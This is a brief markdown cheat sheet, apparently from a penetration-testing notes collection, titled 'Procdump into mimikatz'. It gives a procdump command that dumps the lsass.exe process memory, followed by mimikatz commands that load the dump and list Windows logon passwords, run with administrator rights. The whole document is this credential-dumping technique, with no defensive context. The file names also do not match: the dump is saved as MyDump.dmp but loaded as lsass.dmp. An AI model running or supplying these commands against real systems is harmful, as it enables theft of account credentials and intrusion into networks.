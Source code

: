 # Procdump into mimikatz

```
procdump.exe -accepteula -ma lsass.exe MyDump.dmp
```

Into mimikatz launched with adm rights:

```
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonPasswords
```


